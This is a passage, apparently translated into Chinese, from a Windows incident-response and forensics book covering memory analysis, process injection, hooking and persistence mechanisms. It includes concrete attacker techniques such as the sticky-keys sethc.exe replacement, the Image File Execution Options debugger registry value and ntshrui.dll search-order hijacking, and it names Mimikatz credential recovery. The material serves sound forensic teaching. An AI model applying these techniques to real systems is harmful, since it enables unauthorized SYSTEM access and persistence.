简而言之，进程列表告诉您系统上正在运行的内容。如果您曾经使用过 Windows 任务管理器、SysInternals 进程资源管理器和 pslist 工具，则已通过 Windows API 获取进程列表。通过内存分析，我们可以通过枚举称为 Executive Process (EPROCESS) 块的内核数据结构来重构同样的数据，这些块记录了系统上每个正在运行的进程。如果攻击者使用了 rootkit 技术，如钩子或内核对象操作，以隐藏进程以避开普通 Windows API 函数，则通过这种方式重构运行进程列表可以确保我们获得未被污染的证据视图。

内存取证工具通常会从内核内存中的 EPROCESS 块列表中提取以下信息：

- **进程 ID (PID)** 进程启动时分配的唯一数字标识符
- **父进程 ID** 负责执行当前进程的进程 ID
- **进程名称** 可执行文件的名称
- **进程路径** 可执行文件的完全限定路径
- **进程命令行** 在可执行文件的命令行中提供的任何参数参数
- **进程启动和退出时间** 如果适用
- **线程和句柄数量**

图 12-31 显示了 Volatility Framework 的 pslist 插件的典型输出。通过将 EPROCESS 块中的数据与内核中的其他证据来源结合起来，还可以重构给定进程正在运行的 SID 或用户名。您可以在以下博客文章中了解更多有关此技术的信息：

**GO GET IT ON THE WEB**

[moyix.blogspot.com/2008/08/linking-processes-to-users.html](http://moyix.blogspot.com/2008/08/linking-processes-to-users.html)

请注意，进程仅跟踪其父进程 ID，而不跟踪父进程名称或路径。您的分析工具需要遍历所有 PID 并将父子关系映射到层次结构或树中。这也是为什么在终止后无法识别正在运行的进程的父进程-父进程 PID 将无法映射回当前正在运行的任何内容的原因。


##### 句柄

如果你做过任何软件开发，你可能会记得句柄作为一个抽象层，通过它，用户模式应用程序可以间接访问Windows对象（例如文件，注册表键，安全令牌，线程等）。每当应用程序发出Windows API调用以与对象交互 - 比如打开文件 - 内核的对象管理器会代理和跟踪访问。每个运行的进程都有一个句柄表，在内核内存中维护，跟踪它当前拥有的所有句柄。通过遍历这个表的内容，我们可以识别每个句柄，其类型和相应的对象。

- 注意：
  
    Windows的流行工具套件SysInternals包括一个简单的应用程序叫做“handle”，可以列出所有正在运行的进程的打开句柄。它很快，除了需要从管理员命令shell运行之外，没有任何依赖关系。SysInternals Process Explorer应用程序也提供了从活动系统中列出句柄的能力。但是，请注意，这两个工具都依赖于Windows API，而不是从原始内存中雕刻句柄表。
    

审查句柄可以提供关于运行程序行为的详细洞察：它正在读取或写入哪些文件，它正在访问或设置哪些注册表键，它正在通信的设备等等。当试图确定可疑的运行进程是合法的还是恶意的时，这可能是非常宝贵的。在图12-32中，Redline实用程序展示了一个感染了Zeus的系统的句柄示例。请注意，“winlogon.exe”到“sdra64.exe”和“local.ds”的文件句柄是恶意软件的独特标志。


当然，需要记住的是，应用程序不需要持续维护对其使用的资源的打开句柄。例如，键盘记录器可能会将捕获的按键缓冲在内存中，仅定期将其刷新到文件中。与其他易失性证据源一样，考虑句柄的列表是对可执行文件行为的一个时间点的视角。

检查恶意软件时经常出现一种句柄类型，称为“互斥体”（“mutex”或“ mutual exclusion”对象）。互斥体类似于预订-如果您预订某些东西，则在您完成之前，其他人无法使用它。应用程序在内存中创建互斥体以帮助同步和协调对共享资源的访问。多线程程序通常会创建一个命名的互斥体并打开一个句柄，以指示特定资源已锁定。尝试访问同一资源的其他线程将首先尝试打开对同一互斥体的句柄，并等待其释放后再继续。命名互斥体通常是简单的字符串。

恶意代码-尤其是僵尸网络和其他形式的大规模恶意软件-有时会设置和检查命名互斥体，以避免多次感染系统（或检查其代码是否过时）。例如，早期版本的Zeus会在安装过程中创建名为_AVIRA_2109的互斥体，并在其已存在时终止。臭名昭著的Poison Ivy后门工具包如果未进行配置，则使用默认互斥体名“）！VoqA.I4”。许多防病毒软件签名包括这些静态互斥体，因为它们是检测已知恶意软件的简单方法。内存分析工具（例如Redline和Volatility Framework）也可以轻松列出所有对命名互斥体的句柄，并识别已知为恶意的句柄。作为这些安全和调查技术的对策，许多恶意软件样本现在以编程方式生成互斥体名称，而不是依赖于固定值。图12-33说明了来自恶意进程“WINDOWS:wins .exe”的对默认Poison Ivy互斥体“）！VoqA.I4”的处理，如Redline所示。请注意，在此示例中，“wins.exe”作为ADS运行到“C:\WINDOWS”目录中。


**章节**

内存中的每个进程都有自己的虚拟地址空间，由内存管理器分配的一系列地址，可用于读取/写入数据和执行代码。回想一下，我们将这个地址空间标记为“虚拟”，因为其中的任何部分都可能驻留在物理内存中，也可能分页到磁盘上。从进程的角度来看，它不知道也不关心哪个是哪个，它只是一个连续的地址序列。操作系统确保数据在物理内存中交换进出，并且在请求时可用任何请求的内存页。

内存取证允许我们检查进程的内存空间并确定加载到每个区域或部分中的内容。我们可以利用内存管理器维护的另一个内核数据结构——虚拟地址描述符（VAD）树来做到这一点。方便的是，进程的EPROCESS结构中的一个成员变量是指向其VAD树根节点的指针。通过导航此二叉树的节点，我们可以识别进程地址空间中的每个内存部分。一个部分可以映射到一个文件或已加载的DLL（例如通过Windows进程加载器），也可以表示动态内容，例如堆栈空间。VAD节点还可以指示针对给定部分的安全保护措施，例如是否标记为只读、可写、可执行等等。有关更全面的解释，请参阅Dolan-Gavitt的《VAD Tree：物理内存的进程视图》：

- **上网获取**
  
    www.dfrws.org/2007/proceedings/p62-dolan-gavitt.pdf
    


图12-34显示了Redline中一个进程的内存区域列表。
这有什么用处呢?例如，通过节的分析，可以识别出运行进程在内存中加载的所有DLL。通过检查这些DLL及其导入的功能，可以对可执行文件的功能做出初步的结论。同样，您可以在磁盘上审查每个在内存中加载的DLL的文件元数据，并检查是否有有效的数字签名、已知的好的（或恶意的）哈希校验和等，以找到恶意的已加载的DLL。许多内存取证工具可以利用从节分析中获得的详细信息提取或转储特定节的内容，从而允许您从内存采集中恢复映射文件、DLL或可执行文件的部分内容。最后，节分析可以帮助您识别进程篡改攻击的证据，恶意软件企图在内存中偷偷加载DLL或运行代码。我们将很快详细讨论其中的一些技术。

##### **其他内存工件**

正如本节开头提到的，随着分析员逆向工程新结构和取证工具获得新功能，可以从内存中恢复的工件列表不断增长。我们在调查中经常发现有用的一些额外证据来源，包括以下内容：

- **网络连接** 通过内存分析，可以重建活动和最近关闭的网络连接，这与netstat命令行实用程序提供的证据类似。这些数据可以包括进程名称、源IP和端口、目的IP和端口、连接状态和套接字创建时间。
- **已加载的驱动程序** 内存取证工具可以枚举用于跟踪已加载驱动程序的内核结构。按设计，恶意驱动程序具有提升的特权和低级操作系统组件的访问权限，这可能使它能够颠覆您的取证过程，特别是那些依赖Windows API的过程。因此，经常需要检查已加载的驱动程序以获取有关恶意条目的证据。
- **控制台命令历史记录** 几个Windows进程会保留通过控制台（例如通过cmd.exe shell的一个实例）执行的命令的历史记录。如果您可以在攻击者执行控制台命令后不久获取内存，这可以是一个有用的证据来源。在Vista和更高版本中，可以在控制台主机进程（conhost.exe）的内存空间中找到它。Volatility Framework包括两个插件（consoles和cmdscan）用于解析和恢复此证据。
- **内存中的字符串** 这种技术在初步审查期间很简单但通常很有效，大多数取证工具都允许您搜索获取的内存以查找字节序列或字符串。我们通常会使用这种技术快速查找与我们找到系统有关的某种“已知坏”相关的进程。例如，[如果您知道系统正在调用www.evil.org](http://xn--www-lp6en1iz7o8hmclhfwxhightp7pfty3cqvm.evil.org/)，则在所有运行进程的内存空间中搜索该字符串可能是值得的，如果找不到恶意软件，则该进程及其加载的资源（例如DLL）可能需要进一步检查。当然，并不能保证您的搜索术语在分析时以明文/未混淆状态存在于内存中，但是值得一试。
- **凭据** Mimikatz工具包可以通过读取和解析本地安全性子系统服务（LSASS）内存中的内容来恢复Windows帐户密码，包括哈希和明文，通常运行为lsass.exe。
- **获取更多信息**
  
    [blog.gentilkiwi.com/mimikatz](http://blog.gentilkiwi.com/mimikatz)
    

##### **页文件分析**

如何分析已获取的pagefile.sys?不幸的是，页文件没有内在的结构，这显着限制了您可用的分析技术。最常见的方法是对文件运行“strings”并搜索其中感兴趣的关键字。某些搜索技术，例如寻找对cmd.exe的引用或其他命令shell使用的残留物，通常是一个良好的开始，但是在您已经有了一些好的线索之后，您通常可以从页文件中获得最多的信息。

- 注意：
  
    小心根据页文件中的“异常”证据得出错误的结论。在“strings”输出中，页文件可能包含有关防病毒和基于主机的入侵预防系统签名的残留物。这可能包括可疑的IP地址、域名和恶意软件文件名，这些文件名实际上从未存在于您正在分析的系统上。
    

尽管这不是默认行为，但是Windows可以配置为在关机时清除页面文件的内容。检查注册表值HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\ClearPageFileAtShutdown。如果将其设置为1，则启用了此选项。

##### **分析常见的内存攻击**

许多攻击技术依赖于操纵用户空间进程内存或内核内存中的结构，以隐藏恶意软件并逃避取证分析。我们将简要讨论两种最常见的技术:进程注入和挂钩。

**进程注入** 在进程注入中，恶意“注入”进程会导致合法进程（“被注入”）加载并执行其选择的代码。一旦成功执行，注入进程可以终止并允许被注入的进程继续运行其恶意代码。因为这纯粹是一种内存攻击，所以与磁盘上对应于被注入进程的可执行文件保持不变。此外，被注入的进程通常不包含任何指示哪个进程负责注入的证据。可以想象，这可能很难调查。

攻击者可以利用Windows内置的多种API和机制进行注入攻击，只要他们具有必要的特权（通常作为管理员或系统运行）。有多种形式的进程注入，从强制目标进程从磁盘加载恶意DLL，到直接将恶意代码写入目标进程的内存并调用远程线程以执行它。在一种称为进程替换的相关技术中，恶意软件可以在挂起状态下启动合法可执行文件，随后以恶意代码的进程内存覆盖其进程内存，最终导致其在解除挂起后执行。

幸运的是，内存分析可以是识别进程注入证据的有效方法。许多常见的注入技术会导致进程内存空间中的异常，可以通过编程方式检测到。例如，Volatility Framework的dlllist插件可以通过基本的CreateRemoteThread和LoadLibrary技术识别进程加载的DLL，而malfind插件可以识别更高级的注入形式的证据。同样，Redline可以选择性地检测并标记显示基本进程注入迹象的内存节。图12-35显示了Redline标记为“已注入”的内存节的示例。


还有另一种方法来识别进程注入的证据：找到*注入*恶意软件以及它在系统上运行的方式。如果攻击者希望确保注入的恶意代码在用户注销或系统重启后仍然存在，那么*注入*恶意软件必须保持持久性。这意味着您可以使用本章中描述的所有技术，例如分析自启动键、DLL装载顺序劫持等，来识别执行进程注入的持久性恶意软件。*注入*组件可能在分析时不再运行，但如果您已经确定了相关的持久性机制并恢复了文件，则无关紧要。例如，Poison Ivy后门可以使用进程注入在用户的默认Web浏览器的不可见生成实例中运行其代码。然而，每次重启执行注入的启动程序通过常见的Active Setup自启动注册表键保持持久性，因此可以轻松识别。

- *Hooking（钩取）**广义上讲，“钩取”允许运行中的进程内的代码截取、查看和修改事件（如函数调用及其返回的数据）。Windows操作系统提供了许多API机制，可以钩取常见的事件并在其发生时通知进程。许多合法的应用程序（包括防病毒软件、基于主机的入侵预防系统和应用程序清单软件）使用钩取来支持其功能。当然，恶意软件作者也可以利用这些机制，或使用更隐蔽的技术，将恶意代码插入到合法应用程序发出的函数调用消息流中。Rootkit通常使用钩取来隐藏文件、进程、注册表键或网络连接，使其对用户或取证调查人员不可见。幸运的是，我们可以通过内存分析找到恶意钩取的证据。
- 注意：
  
    老式的按键记录器使用了两种Windows API函数之一来拦截键盘输入。一种方法使用钩取：通过使用适当的参数调用SetWindowsHookEx，攻击者可以设置一个在键盘事件发生时被调用的恶意DLL内的函数。另一种方法使用轮询函数（如GetAsyncKeyState）来不断检查按键的上下状态并确定哪些键被按下。
    

恶意软件可以在用户空间的每个进程基础上实现钩子，通过操纵进程维护的表来跟踪从其他DLL导入的函数地址，Import Address Table（IAT）挂钩就是其中的一个例子。在某些Windows版本上，也可以挂钩内核数据结构，例如用于处理低级系统调用的中断描述符表（IDT）和系统服务分派表（SSDT）。从Windows XP和Server 2003 SP1的64位版本开始，Windows增加了一项安全功能，称为内核补丁保护（KPP，也称为PatchGuard），以防止此类内核篡改攻击。攻击者已经找到了规避这些保护机制的方法，但在实践中，实现现代版本的Windows中的用户空间钩子仍然更容易。
许多内存取证工具都可以帮助您识别用户空间或内核钩子的特征迹象。例如，Memoryze和Redline具有分析选项，可以在SSDT和IDT中识别不受信任的内核钩子。Volatility Framework还提供了一个名为apihooks的插件，可以在用户空间和内核中识别IAT钩子，内联钩子和其他技术。图12-36显示了一个带有Zeus感染的系统的apihooks输出示例。它显示了一个内联钩子，该钩子导入自lsass.exe进程空间中的WinInet.dll中的HttpSendRequestA函数。


#### **内存分析工具**

以下列表总结了我们最喜欢的内存分析工具及其功能。在本章中，我们已经提到了其中的几个。在生产环境中测试和评估使用的任何软件时要特别小心：这些工具使用的方法通常是未记录和逆向工程的。操作系统的主要版本更新，甚至在某些情况下的服务包，如果还不受支持，往往会破坏这些工具 - 最好的情况下，您会收到应用程序错误消息；在最坏的情况下，您可能会使目标系统变为蓝屏状态。

**获取工具** 当我们需要从Windows系统捕获内存时，我们通常会转向以下其中一个免费工具：

- **FTK Imager by AccessData** [www.accessdata.com/support/product-](http://www.accessdata.com/support/product-)
downloads
- **DumpIt by MoonSols** [www.moonsols.com/resources/](http://www.moonsols.com/resources/)
- **Memoryze and Redline by Mandiant** [www.mandiant.com/resources/](http://www.mandiant.com/resources/)
  download/memoryze
  [www.mandiant.com/resources/download/redline](http://www.mandiant.com/resources/download/redline)
  
    **分析工具** 以下免费工具可以分析和重建已获得的内存映像的内容，并帮助您识别进程或内核内存空间中的恶意活动指标。
  
- **Memoryze和Redline，由Mandiant提供**[www.mandiant.com/resources/download/memoryze](http://www.mandiant.com/resources/download/memoryze)[www.mandiant.com/resources/download/redline](http://www.mandiant.com/resources/download/redline)
  
    这些来自Mandiant的免费工具可以执行内存获取和分析。Memoryze专为控制台应用程序而设计，面向更有经验的用户。Redline使用相同的后端引擎，但提供了一个图形前端，用户可以生成内存收集器，导入获取的内存映像并审核其内容（以及来自文件系统、注册表和事件日志的各种其他实时响应证据）。这两个工具都可以解析运行进程、句柄、内存部分、加载的驱动程序和内存映像中的网络连接。如果使用Memoryze或Redline来获取内存，它还可以整合来自文件系统的信息，例如内存中加载的PE文件的数字签名和哈希，以帮助分析人员识别可疑二进制文件。
    
- **Volatility Framework，由Volatile Systems提供**[code.google.com/p/volatility/](http://code.google.com/p/volatility/)
  
    Volatility是一个流行的开源内存取证框架，以其广泛的社区开发的插件而闻名。该工具包是用Python开发的，但也作为一个打包的可执行文件分发。作为一个只有控制台的应用程序，具有广泛的命令和参数集合，Volatility可能比基于UI的工具具有更陡峭的学习曲线。然而，它的插件也使它具有极其广泛的分析功能，超出了基本的内存解析 - 从提取内存中的注册表文件到检测多种钩子和进程注入形式以及扫描Yara签名和字节序列等等。
    

### **替代性的持久化机制**

在本章的“Windows注册表”部分，我们介绍了“持久性机制”（通常也称为“自启动”）这个术语。这是一个广泛的注册表键、文件路径和其他Windows组件类别，它们会自动加载和运行可执行代码，通常在系统启动或用户登录时。攻击者经常利用合法（以及未记录的）持久性机制，以确保后门、Rootkit和其他恶意代码在受到攻击的系统上继续运行。

大多数恶意软件——无论是针对性的还是商品威胁——都使用基于注册表的机制进行持久性。正如您在本章前面学到的那样，支持持久性的注册表键的数量之多，使恶意软件可以轻松地藏匿在平淡无奇的地方，同时利用稳定的操作系统功能来确保它们可以在用户注销或重启后幸存下来。幸运的是，现在许多这些键已经有了很好的记录，我们还强调了几个工具和技术，您可以使用它们来识别和分析它们。

然而，注册表不是自启动的唯一来源。（如果它只是那么简单！）Windows提供了许多独立于注册表的机制，可以被利用来自动加载和执行恶意软件。本节介绍了其中一些技术，包括使用启动文件夹、循环计划任务、系统二进制修改和DLL加载顺序劫持。

#### **启动文件夹**

启动文件夹是Windows中最基本的持久性机制之一。它们的行为很简单：每个用户在其个人资料中都有一个启动文件夹，操作系统会在登录时自动执行其中的任何程序。Windows还提供了一个启动文件夹，其内容在任何用户登录时都会被执行。

在Windows 2000、XP和Server 2003中，“所有用户”启动文件夹位于C:\Documents and Settings\All Users\Start Menu\Programs\Startup，而用户特定的启动文件夹位于C:\Documents and Settings\[username]\Start Menu\Programs\Startup。

在Windows Vista和Windows 7中，“所有用户”启动文件夹位于C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup，而用户特定的启动文件夹位于C:\Users\[username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup。

请注意，启动文件夹不仅限于可执行文件——例如，我们曾看到攻击者在启动文件夹中种植批处理脚本甚至是.lnk文件。为什么是.lnk文件？Windows将遵循启动文件夹中的.lnk文件，并加载它所指向的内容。在一个案例中，我们观察到的恶意软件通过一个.lnk文件实现了持久性，该文件指向了Windows脚本主机可执行文件wscript.exe，并加载了作为参数提供的单独的JScript文件。

#### **循环计划任务**

在本章的“计划任务”部分，我们讨论了攻击者在远程系统上执行命令和应用程序的各种方式。这些情况通常涉及创建简单的任务，通过“at”命令在未来运行一次。但是，“at”命令及其更复杂的对应命令“schtasks”也可以创建循环执行的任务，可以指定每隔多少分钟或小时，或每周的某些天。因此，攻击者可以创建这样的任务，以确保其恶意软件在受到攻击的系统上继续运行。

- 注意：
  
    例如，Conficker蠕虫在传播到远程系统时会创建未命名的循环计划任务（At#.job）。这些任务通过向rundll32.exe提供恶意DLL文件的导出函数作为参数来启动，从而执行该函数。
    

未来和循环计划任务以.job文件的形式持久化在%SYSTEMROOT%\Tasks目录中。有关如何分析这些文件、日志和与任务计划程序服务相关的其他证据来源的进一步信息，请参见本章的“计划任务”部分。

### **系统二进制修改**

攻击者可以选择修改现有的Windows二进制文件（通常是在启动或用户登录时自动加载的文件），并使用篡改的版本来执行恶意代码。这可能是一种难以检测的技术，特别是与其他反取证措施（如时间戳）结合使用时，因为有成千上万个可执行文件和系统库可以成为修改的潜在“目标”。虽然修改合法的二进制文件将改变其MD5哈希值（并且如果签名，将使其数字签名无效），但日益增长的操作系统和应用程序文件数量以及未经数字签名的大量合法二进制文件可能会阻碍使用白名单分析解决此问题的努力。

当然，会导致Windows崩溃或以其他方式影响用户体验的更改也可能限制攻击者在系统上持久存在的能力。因此，修改的系统二进制文件要么保留原始文件的功能，要么至少不会以任何明显的方式破坏操作系统。因此，攻击者更有可能替换非关键的可执行文件或库；针对核心Windows组件会引入重大的技术复杂性和风险。

Microsoft在较旧版本的Windows（XP、2000）中实现了Windows文件保护（WFP），可以防止对核心操作系统文件进行更改，但它主要是为了保护系统免受用户或程序错误的影响，而不是阻止针对性攻击。因此，它具有许多漏洞，允许具有本地管理员权限的攻击者轻松绕过其控制。在Vista及更高版本中，Microsoft用更有效的Windows资源保护（WRP）替换了旧的WFP实现。该功能将对WFP受管资源的更改限制为特殊的特权服务帐户TrustedInstaller，并已被证明对篡改更具有弹性。

#### **黏滞键攻击**

黏滞键攻击是一个简单但有效的系统二进制修改技术，可以追溯到Windows 2000时代。该技术针对sethc.exe，这是一个提供各种辅助功能的系统文件。其中之一是称为Sticky Keys的键盘选项，可以在交互会话期间连续按五次Shift键触发。

技巧很简单：用cmd.exe的副本替换sethc.exe。攻击者随后可以在Windows登录提示符（甚至在RDP会话期间）按下五次Shift键，以SYSTEM身份运行命令行。然后很容易启动Explorer.exe或任何其他所需的应用程序。相反，取证检查员可能很容易忽略这个篡改的sethc.exe，因为它仍然是数字签名的（并且在大多数合法软件白名单中都会出现MD5哈希值）。

该技术在Windows Vista及更高版本上不再适用；但是，有另一种众所周知的方法可以实现相同的结果。攻击者可以通过添加注册表键HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe，创建类型为REG_SZ的名为Debugger的值，并将值数据设置为C:\WINDOWS\system32\cmd.exe，将cmd.exe设置为sethc.exe的调试器。可以使用相同的值来指定任何任意可执行文件作为目标可执行文件的调试器。

#### **DLL加载顺序劫持**

加载顺序劫持，也称为“搜索顺序劫持”，利用程序加载其DLL依赖项的过程。通过这样做，攻击者可能能够使合法程序在DLL中加载和执行恶意代码，而无需执行任何内存篡改技术，例如进程注入。

大多数程序不会尝试从静态、硬编码的位置加载DLL，否则如果它们从意外的路径安装或执行，肯定会出现问题。相反，Windows提供了一种机制来帮助确保动态加载的DLL，按名称引用，从“正确”的位置检索。微软将此称为“KnownDLLs”列表，配置在注册表值HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs中，并在启动时在对象\\.\KnownDLLs下填充。列在KnownDLLs中的DLL始终从目录%systemroot%\system32加载，并包括Windows应用程序最常使用的一些库。这有助于确保应用程序始终加载这些DLL的正确版本。图12-37显示了KnownDLLs注册表键的示例。

那么如果应用程序尝试加载未在KnownDLLs中指定的DLL会发生什么？Windows将指示它按照SafeDllSearchMode设置指定的特定搜索顺序进行操作。在Windows XP SP3之前，默认情况下禁用此选项；在当前版本的Windows中，它几乎总是启用的。以下表格说明了基于此设置的Windows按名称查找DLL的顺序。

| 禁用 SafeDllSearchMode (0) | 启用 SafeDllSearchMode (1) |
| --- | --- |
| 应用程序加载的目录 | 应用程序加载的目录 |
| 当前工作目录 | %systemroot%\system32 |
| %systemroot%\system32 | %systemroot%\system |
| %systemroot%\system | %systemroot% |
| %systemroot% | 当前工作目录 |
| %PATH% 环境变量条目 | %PATH% 环境变量条目 |


Microsoft维护了一个页面，专门描述了跨所有Windows版本的DLL搜索顺序，[网址为msdn.microsoft.com/en-us/library/ms682586(VS.85).aspx。](http://xn--msdn-uh5f019bnl2e.microsoft.com/en-us/library/ms682586(VS.85).aspx%E3%80%82)

为了进行DLL加载顺序劫持，攻击者必须利用应用程序和目标DLL文件名，其中：

- 合法的DLL未在KnownDLLs中指定。
- 合法的DLL不在应用程序可执行文件的同一目录中。
- 可执行文件不使用绝对路径来加载DLL。

Mandiant的博客文章中引用的一个著名例子涉及ntshrui.dll和explorer.exe。Windows Explorer可执行文件位于%systemroot%，而合法的ntshrui.dll副本位于%systemroot%\system32。Explorer会在系统启动时自动加载ntshrui.dll。然而，它不在KnownDLLs列表中受到保护。因此，如果攻击者将ntshrui.dll的恶意副本放置在%systemroot%中，它将由explorer.exe加载，因为它在相同的路径中。这可以在ntshrui.dll的副本中实现恶意代码的持久性，而无需对注册表、进程注入等进行任何修改。

- 注意：

这种技术当然不仅限于explorer.exe，但由于它加载的许多DLL未受KnownDLLs保护，并且其位置在%systemroot%\system32目录之外，因此它是一个受欢迎的目标。我们在现实世界的事件中看到攻击者利用了其他可执行文件，包括那些不是核心Windows发行版的第三方应用程序。

这是一个方便的技巧，可以让合法的程序加载恶意代码，但攻击者还必须确保它不会引入不稳定性或破坏所需的功能。因此，用于加载顺序劫持攻击的恶意DLL通常提供与其合法对应物相同的导出函数集。当调用时，恶意软件可以简单地“通过”这些导出函数到原始DLL。这确保调用应用程序继续正常运行，而不需要攻击者在其恶意DLL中重新实现相同的功能。

在受损系统上识别加载顺序劫持的证据可能具有挑战性。我们通常会结合文件系统时间线审查（重点关注在疑似攻击者活动附近创建的DLL）和内存分析（重点关注由合法应用程序加载的未签名DLL）来研究依赖于此技术实现持久性的恶意软件。分析人员还可以针对某些路径永远不会加载的特定DLL应用妥善的迹象（例如我们先前对ntshrui.dll的示例）。

### **回顾：回答常见调查问题**

我们在开头警告您 - Windows是一个复杂的东西。本章涵盖了大量的证据，但很难追踪哪些证据来源提供哪些信息。为了回顾您学到的内容并提供快速参考，本节重点介绍许多常见的调查问题和场景，并列出可以指向正确方向的证据类型。虽然所列出的项目不应被视为所有可能证据来源的全面列表，但它们确实反映了我们在调查Windows系统时通常查看的首要位置。

#### **我可以使用哪些证据来源进行时间线分析？**

| 证据来源 | 可用证据 |
| --- | --- |
| NTFS主文件表 | Standard Information和Filename Information属性的MACE时间戳 |
| NTFS INDX属性 | MACE时间戳（仅限Standard Information） |
| Prefetch文件 | 第一次执行、最近运行 |
| 事件日志 | 生成条目时间、记录条目时间 |
| LNK文件 | 引用文件的MAC时间戳（Standard Information） |
| 回收站INFO2/I$文件 | “删除”的日期和时间 |
| 计划任务(.job文件) | 最后运行时间、计划日期 |
| 注册表-所有键 | 键的最后修改时间 |
| 注册表-Shim缓存 | 跟踪文件的每个标准信息的最后修改日期和时间;最后更新日期（仅适用于某些Windows版本） |
| 注册表-UserAssist | 应用程序上次执行时间 |
| 注册表-ShellBags | 每个跟踪路径的MAC（Standard Information） |
| 内存-进程 | 创建时间、退出时间 |
| 内存-网络连接 | 创建时间 |

#### **哪些证据来源可以证明文件先前已执行？**

| 证据来源 | 可用证据 |
| --- | --- |
| Prefetch文件 | 可执行文件的完整路径、执行次数、第一次和最近运行时间、在执行的前10秒内加载的已访问的文件。 |
| 注册表-Shim缓存 | 对于每个跟踪的可执行文件和脚本：完整性、大小（可选）、执行标志（可选）、最后修改日期、记录最后更新日期（可选）。 |
| 事件日志-安全 | 进程审核事件(EID 4688、4689)跟踪执行文件的完整路径、进程ID、父进程ID、用户名、关联的登录ID、进程启动和停止日期和时间。 |
| 事件日志-任务计划程序操作 | “Launch task”事件(EID 129、201)记录通过计划任务执行的文件的完整路径；任务注册和任务更新事件(EID 106、140)记录任务名称和创建它们的用户。 |
| 计划任务日志(SchedLgU.txt) | 任务执行的文件名、执行时间和退出状态码。 |
| 事件日志-系统 | 与恶意文件相关的已知服务的服务创建/启动/停止事件。 |
| 注册表-用户Hives | MUICache和UserAssist键记录用户会话期间执行的应用程序。 |
| 注册表-MRU键 | MRU键可以证明用户使用特定应用程序打开或与文件、地址或其他资源交互。 |

#### **哪些证据可以证明已删除的文件？**

| 证据来源 | 可用证据 |
| --- | --- |
| NTFS主文件表 | “不活动”记录-所有MFT属性仍然可用（包括居民数据，如果适用）。 |
| NTFS INDX属性 | 在INDX空闲空间中删除文件的残留物。解析以获取原始文件大小和MAC时间戳（Standard Information）。 |
| LNK文件 | 即使引用的文件已删除，也可能仍然存在。 |
| 回收站 | INFO2（Windows XP）或$I文件（Vista及更高版本）包含有关回收站内容的元数据。 |
| 已执行文件和脚本的证据 | 参见“哪些证据来源可以证明文件先前已执行？”即使文件已删除，这些证据也会持续存在。例如，已删除可执行文件的预取文件中的“访问的文件”可能引用其他已删除的文件。 |
| 注册表-MRU键 | 注册表-MRU是Explorer或特定应用程序以前打开的。 |

#### **哪些文件被配置为在启动或用户登录时保持持久性（自动运行）？**

| 证据来源 | 可用证据 |
| --- | --- |
| 注册表-自动运行键 | Run/RunOnce，Services，Active Setup Installed Components，Winlogon，LSA Packages，Userinit，AppInit，DLL，Browser Helper Objects，Shell Extensions等。 |
| 计划任务 | .job文件配置为在未来或定期运行。 |
| 文件系统-用户启动文件夹 | 每个用户的启动文件夹的内容在登录时自动执行。 |
| 文件系统-DLL | 放置在“错误”的路径中（例如C:\Windows\System32）的（恶意？）DLL，以利用搜索顺序劫持。 |

#### **谁交互式登录到系统？给定用户在何时和日期登录到系统？**

| 证据来源 | 可用证据 |
| --- | --- |
| 事件日志-安全 | 成功/失败的登录尝试（按类型）：登录类型2(控制台;例如VNC，屏幕共享，物理访问)，登录类型7(屏幕解锁)，登录类型10(终端服务/RDP)。本地帐户的被访问系统记录在日志中，域帐户的在被访问的系统和域控制器中记录。
事件可能包含源系统/IP。从网络登录发生的源系统也可以在用户尝试使用不同于源系统登录会话的凭据验证到远程系统时记录显式登录事件。 |
| 事件日志-终端服务日志 | “Microsoft-Windows-TerminalServices-Remoteconnection Manager”(EID 1149)-用户，域，源IP。“Microsoft-Windows-TerminalServices-LocalSessionManager”(EID 21，23，24)-用户，域，源IP。本地帐户的被访问系统记录在日志中，域帐户的在被访问的系统和域控制器中记录。 |
| 注册表-MRU键 | 来自源系统的终端服务器客户端MRU键。 |
| 文件系统 | 第一个交互式登录帐户的用户配置文件目录（例如C:\users\[username]）及其关联的子目录以及注册表在交互式活动期间由该帐户进行修改。 |

#### **谁建立了对系统的网络登录？给定用户在何时和日期登录到系统？**

| 证据来源 | 可用证据 |
| --- | --- |
| 事件日志-安全 | 成功/失败的网络登录(类型3)事件。本地帐户的被访问系统记录在日志中，域帐户的在被访问的系统和域控制器中记录。事件可能包含源系统/IP。
在源系统上的“使用明确凭据的登录尝试”事件可能包含目标系统和目标用户名（仅在用户使用与源系统上的登录会话不同的凭据验证访问系统时生成）。 |
| 事件日志-系统 | 常见远程访问实用程序（如PsExec）的服务启动/停止事件（EID 7035,7036）。 |
| 注册表-MRU、Shellbag键 | 源系统上的MRU和shellbag键可能会指示装载到被访问系统的网络共享。 |
| 内存 | 来源系统上的csrss.exe或conhost.exe内存中的控制台命令残留。 |

### **那又怎样？**

Windows仍是全球企业环境中使用最广泛的操作系统。我们很少遇到攻击响应案例，攻击者的足迹没有经过至少几个Windows系统-即使他们的初始入口向量（或最终目标）并不运行在Windows上。许多工具可用于促进和自动化Windows数字取证的各个方面；然而，理解操作系统提供的基本证据来源以及它们产生和维护的条件，仍然对任何调查人员至关重要。本章旨在提供对这些证据来源的“英里宽，英寸深”的概述-我们希望您可以将其用作进一步深入研究、实验和分析的起点。

### **问题**

1. 主文件表（MFT）中哪个属性包含不能直接通过Windows API操作的时间戳？
2. 什么NTFS证据，针对特定目录，可能记录已删除文件的元数据？
3. 文件必须满足什么条件才能驻留在MFT中？
4. 攻击者如何从Windows 7系统上的备用数据流中加载和执行恶意代码？
5. 通过解析给定应用程序的预取文件的内容，可以获得哪些文件名？
6. 攻击者连接到一个未受保护的WinVNC屏幕共享服务上的工作站。当前用户已注销，因此攻击者必须提供有效的Windows凭据才能继续。这种身份验证的登录类型是什么？
7. 攻击者挂载远程服务器上的ADMIN$共享，以通过“at”命令远程安排任务。这种活动会生成什么登录类型？
8. 哪个证据来源记录了创建计划任务的用户名？
9. Shim Cache中的证据与预取文件中的证据有何不同？
10. 哪些注册表键可以记录用户通过Explorer在交互式会话期间访问的目录？这些键的值中存储了哪些元数据？
11. UserAssist键中的证据与存储在MUICache键中的证据有何不同？
12. 列举两种不需要使用注册表的持久性机制。

## 第13章 调查Mac OS X系统
